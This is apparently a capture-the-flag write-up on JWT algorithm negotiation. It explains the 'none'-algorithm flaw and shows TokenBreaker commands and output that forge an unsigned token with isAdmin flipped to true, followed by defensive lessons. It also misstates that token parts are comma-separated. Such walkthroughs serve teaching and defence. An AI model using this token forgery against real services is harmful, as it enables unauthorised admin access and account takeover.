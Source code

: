 # Algorithm Negotiation

## The Basics

Sometimes a bad implementation or a known vulnerability in an older algorithm can lead to serious trouble, and a good example of this is the SSL's [Poodle](https://www.openssl.org/~bodo/ssl-poodle.pdf) Attack which relies on the negotiation of an old an vulnerable algorithm, in combination with a [Padding Oracle](padding-oracle.nd) Attack.

There are a few good examples on the application of this issue and another one really interesting is related with [JWT's](https://jwt.io/introduction/).

Although JWT is a really nice thing, there are a lot of different things that can go wrong with the implementation.

Lets start by getting a really quick overview of JWTs.

```plaintext
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c
```

This is a really simple jwt, which consist of 3 parts, comma separated:

* Header - Has information like the algorithm being used
* Payload - The actual data
* Signature - A signature to verify JWT

Each of these sections is a json structure encoded with base64url

JWT's are being widely used nowadays as a way to validate sessions.

The important parts to understand here about the jwt are the algorithm and the signature. The algorithm specifies the algorithm used to secure the jwt, while the signature makes sure that the jwt wasn't manipulated by an attacker

According to the JWT [specification](https://tools.ietf.org/html/rfc7519) there are two algorithms that are mandatory and need to be supported on every implementation: **none** and **HS256**.

The first one as the name indicates, is not having an algorithm at all, so no signature is needed. The second one is an HMAC with SHA256.

Depending on how a library is implemented, an attacker can manipulate the algorithm, in order to change it to none, or even from something like RS256 which uses a public key, to an HS256

Auth0 has an awesome blog and resources about attacks on JWT and we definitely recommend you to take some time to read their blog posts, specially the post [Critical vulnerabilities in JSON Web Token libraries](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/)

## Solving the challenge

This challenge has a vulnerability where the service parsing the jwt accepts the none algorithm, even when the developer specifies a password. So as long as an attacker sends a token with a none algorithm, the server will accept it.

In the challenge, there is a JWT token stored in localstorage

You can start by using [jwt.io](https://jwt.io/) to decode the token, and understand whats there...

In this case, since we are trying to exploit the algorithm negotiation we are going to use a nice tool called [TokenBreaker](https://github.com/Goron/TokenBreaker).

This tool exploit the two issues mentioned before.

You can download the tool and run it with python3.

```bash
pip install -r requirements.txt
python TheNone.py -t TOKEN_OBTAINED_FROM_LOCALSTORAGE
```

This tool will guide you through the process of changing the token.

Take a look on what you need to do:

```bash
python TheNone.py -t eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJBTk9OW
U1PVVNVU0VSIiwiaXNBZG1pbiI6ZmFsc2UsImlhdCI6MTYyNTI1MzgzN30.8-SY5A-4DqMglOurZ6aL7x1A5yD0DS8_34DJYXzZY-g
 ________         _  __
/_  __/ /  ___   / |/ /__  ___  ___
 / / / _ \/ -_) /    / _ \/ _ \/ -_)
/_/ /_//_/\__/ /_/|_/\___/_//_/\__/

[*] Decoded Header value: {"alg":"HS256","typ":"JWT"}
[*] Decoded Payload value: {"sub":"ANONYMOUSUSER","isAdmin":false,"iat":1625253837}
[*] New header with 'alg' > 'none': {"alg":"None","typ":"JWT"}
[<] Modify Header? [y/N]: n
[<] Enter your payload: {"sub":"ANONYMOUSUSER","isAdmin":true,"iat":1625253837}
[+] Successfully encoded Token: .
```

The tool asks you if you want to change the header, which we said no, and then asks you to specify your new payload. As you can see from the decoded value, there is a field called isAdmin that is set to false, so we just need to flip it to true.

And the tool will give you a new token that you need to change in localstorage, refresh the page, and there it is: a new paste in the view, with the flag

## Lesson Learned

* Use a well known and proven JWT library to parse JWT tokens.
* Do not accept JWT tokens with none algorithm
* If you support different algorithms, specify a key for each algorithm

